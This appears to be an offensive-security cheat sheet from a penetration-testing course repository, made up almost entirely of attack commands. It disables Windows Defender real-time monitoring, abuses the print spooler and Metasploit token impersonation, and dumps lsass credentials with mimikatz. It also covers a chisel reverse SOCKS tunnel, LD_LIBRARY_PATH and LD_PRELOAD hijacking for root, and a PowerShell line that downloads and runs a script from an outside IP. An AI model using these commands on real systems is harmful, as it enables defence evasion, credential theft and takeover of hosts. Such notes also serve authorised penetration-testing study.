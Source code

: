 # Windows AV

```powershell
Set-MpPreference	-DisableRealtimeMonitoring	$true
Set-MpPreference	-DisableRemovableDriveScanning	$true
Set-MpPreference	-DisableArchiveScanning	$true
Get-MpComputerStatus
```

# Windows Credential

## SpoolSV Exploitation
```powershell
ls \\dc03\pipe\spoolss

SpoolSample.exe [Host Machine] [Target Pipe] <appsrv01\test>
PrintSpooferNet.exe [Target Pipe] <\\.\pipe\test\pipe\spoolss>
```
## Incognito Impersonation Metasploit
```powershell
#Inside Metasploit 
load incognito
list_tokens -u
impersonate_token corp1\\admin
getuid
```
## MiniDump
```powershell
#MiniDump.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
# Network 

## Chisel Tunnel
```Powershell
#Server Side
./chisel server -p [Port] --reverse

#Client Side
./chisel client [Server IP Address]:[Port] R:[Remote Port]:socks

#Server Side
proxychains4 nmap [IP Address]
```
# Linux Command Injection 

## LD_LIBRARY_PATH Hijacking
Logic: Use LDD to find libgpg-error.so.0 → Use readelf to grep needed variable → Put into "Linux Shellcode Loaders/sharedLibrary_LD_LIBRARY_PATH.c" → Export the library path and Execute
```bash
ldd /usr/bin/top //Find out libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ff5aa0f8000)
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
gcc -Wall -fPIC -z execstack -c -o sharedLibrary_LD_LIBRARY_PATH.o sharedLibrary_LD_LIBRARY_PATH.c
gcc -shared -o sharedLibrary_LD_LIBRARY_PATH.so sharedLibrary_LD_LIBRARY_PATH.o -ldl
export LD_LIBRARY_PATH=/home/offsec/ldlib/
sudo top
```

## LD_PRELOAD
Logic: Use ltrace cp → find out the cp command use getuid → set LD_PRELOAD to hijack the function
```bash
gcc -Wall -fPIC -z execstack -c -o sharedLibrary_LD_PRELOAD.o sharedLibrary_LD_PRELOAD.c
gcc -shared -o sharedLibrary_LD_PRELOAD.so sharedLibrary_LD_PRELOAD.o -ldl
export LD_PRELOAD=/home/offsec/evil_geteuid.so
```

# MSF Console

## Payload Generation
```bash

```

## Post-exploitation
```powershell
execute -H -f notepad
migrate

##Download Host Recon
(new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX

## Check RunasPPL (If 1 -> Enabled)
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```
